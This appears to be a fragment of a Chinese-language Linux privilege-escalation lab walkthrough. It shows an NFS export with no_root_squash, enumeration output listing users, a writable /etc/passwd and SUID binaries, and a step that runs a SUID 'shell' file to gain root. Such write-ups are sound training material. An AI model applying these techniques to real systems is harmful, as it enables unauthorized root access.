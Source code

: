 
### NFS
```
/home/user5/  *(rw,no_root_squash)
```





### root用户身份执行
══════════╣ Searching root files in home dirs (limit 30)
/home/
/home/user5/script
/home/user4/abc.txt
/home/user3/shell
/home/user3/.script.sh
/root/
/var/mysql

-------------------
## 2）LinEnum信息收集

user1:x:1000:1000:user1,,,:/home/user1:/bin/bash
user2:x:1001:1001:user2,,,:/home/user2:/bin/bash
user3:x:1002:1002:user3,,,:/home/user3:/bin/bash
user4:x:1003:1003:user4,,,:/home/user4:/bin/bash
user5:x:1004:1004:user5,,,:/home/user5:/bin/bash
user6:x:1005:1005:user6,,,:/home/user6:/bin/bash
user7:x:1006:0:user7,,,:/home/user7:/bin/bash
user8:x:1007:1007:user8,,,:/home/user8:/bin/bash

Can we read/write sensitive files:
-rw-rw-r-- 1 root root 2648 Jun  5  2019 /etc/passwd   --/etc/passwd对用户是可写的
-rw-r----- 1 root shadow 2333 Jun  6  2019 /etc/shadow

SUID files: 可以使用root权限运行shell和脚本文件
-rwsr-xr-x 1 root root 8392 Jun  4  2019 /home/user5/script
-rwsr-xr-x 1 root root 8392 Jun  4  2019 /home/user3/shell

-------------------




--------------------------------------------
--------------------------------------------
6、提权

1）方法（一）user3
提权方法1：利用shell文件的SUID权限获取root shell

-rwsr-xr-x 1 root root 8392 Jun  4  2019 /home/user3/shell

cd /home/user3/
./shell  --获得root权限
